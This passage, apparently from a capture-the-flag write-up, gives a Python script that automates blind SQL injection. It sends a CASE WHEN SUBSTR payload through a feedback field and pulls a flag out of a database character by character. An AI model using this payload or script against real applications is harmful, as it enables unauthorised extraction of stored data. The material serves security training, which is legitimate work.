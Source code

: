     If not, it responds with "Something went wrong."

## Automated Exploitation Script

Here’s a Python script to automate the exploitation process:

```python
import requests
import string

# Replace with your instance URL and credentials
base_url = "Your_Instance_URL"
login_url = base_url + "/login"
add_note_url = base_url

charset = string.digits + string.ascii_letters + "{}_"
flag = ""
position = 1

username = "your_username"
password = "your_password"
session = requests.Session()

def login():
    login_data = {"username": username, "password": password}
    response = session.post(login_url, data=login_data)
    if "Welcome" in response.text:
        print("[+] Login successful!")
    else:
        print("[-] Login failed.")
        exit()

def test_char_for_position(char, position):
    payload = f"' OR CASE WHEN SUBSTR((SELECT flag FROM flag),{position},1)='{char}' THEN 1 ELSE (1/0) END AND '1"
    data = {"feedback": payload}
    response = session.post(add_note_url, data=data)
    if "Thanks for the feedback" in response.text:
        return True
    return False

login()
while True:
    for char in charset:
        print(f"[+] {flag}{char}")
        if test_char_for_position(char, position):
            flag += char
            position += 1
            break
    if flag[::-1][0] == "}":
        break
    
print(f"\n[+] Extracted flag: {flag}")
```
